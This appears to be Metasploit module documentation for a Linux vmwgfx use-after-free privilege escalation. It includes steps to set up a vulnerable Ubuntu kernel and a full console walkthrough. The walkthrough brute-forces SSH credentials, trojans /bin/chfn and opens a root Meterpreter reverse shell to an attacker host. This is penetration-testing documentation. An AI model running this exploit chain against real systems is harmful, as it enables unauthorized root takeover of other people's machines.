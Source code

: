 ## Vulnerable Application

If the vmwgfx driver fails to copy the 'fence_rep' object to userland, it tries to
recover by deallocating the (already populated) file descriptor. This is
wrong, as the fd gets released via put_unused_fd() which shouldn't be used,
as the fd table slot was already populated via the previous call to
fd_install(). This leaves userland with a valid fd table entry pointing to
a free'd 'file' object.

We use this bug to overwrite a SUID binary with our payload and gain root.
Linux kernel 4.14-rc1 - 5.17-rc1 are vulnerable.

Successfully tested against Ubuntu 22.04.01 with kernel 5.13.12-051312-generic.

### Install

To install a vulnerable kernel on Ubuntu 22.04.01, follow these instructions:

1. Download the `linux-*` modules for a vulnerable kernel, such as https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.13.12/amd64/
2. Install `libssl.1` (https://askubuntu.com/a/1403683)
   1. `echo "deb http://security.ubuntu.com/ubuntu focal-security main" | sudo tee /etc/apt/sources.list.d/focal-security.list`
   2. `sudo apt-get update`
   3. `sudo apt-get install libssl1.1`
   4. `sudo rm /etc/apt/sources.list.d/focal-security.list`
3. `sudo apt-get install build-essential`
4. `sudo dpkg -i *.deb`
5. Follow [these instructions](https://gist.github.com/chaiyujin/c08e59752c3e238ff3b1a5098322b363) to boot the vuln kernel
6. `sudo reboot`

## Verification Steps

1. Start msfconsole
2. Get an initial user shell
3. Do: `use linux/local/vmwgfx_fd_priv_esc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

Gain initial user access

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/ssh/ssh_login) > set username ubuntu
username => ubuntu
msf auxiliary(scanner/ssh/ssh_login) > set password ubuntu
password => ubuntu
msf auxiliary(scanner/ssh/ssh_login) > run

[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.13.12-051312-generic #202108180838 SMP Wed Aug 18 08:41:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:40003 -> 1.1.1.1:22) at 2022-11-25 08:47:08 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
^Z
Background session 1? [y/N]  y
```

priv esc

```
msf auxiliary(scanner/ssh/ssh_login) > use linux/local/vmwgfx_fd_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/vmwgfx_fd_priv_esc) > set verbose true
verbose => true
msf exploit(linux/local/vmwgfx_fd_priv_esc) > set session 1
session => 1
msf exploit(linux/local/vmwgfx_fd_priv_esc) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf exploit(linux/local/vmwgfx_fd_priv_esc) > exploit

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Kernel version 5.13.12-051312-generic appears to be vulnerable
[+] /dev/dri/card0 found writable
[+] /bin/chfn suid binary found
[+] The target appears to be vulnerable. vmwgfx installed
[+] Original /bin/chfn backed up to /root/.msf4/loot/20221125085335_default_1.1.1.1_binchfn_651737.bin
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Max line length is 65537
[*] Writing 10814 bytes in 1 chunks of 39254 bytes (octal-encoded), using printf
[*] Uploading payload to /tmp/.Qpm6q
[*] Writing '/tmp/.Qpm6q' (282 bytes) ...
[*] Max line length is 65537
[*] Writing 282 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[*] Replacing trojaned /bin/chfn with original
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:38250) at 2022-11-25 08:54:14 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.13.12-051312-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
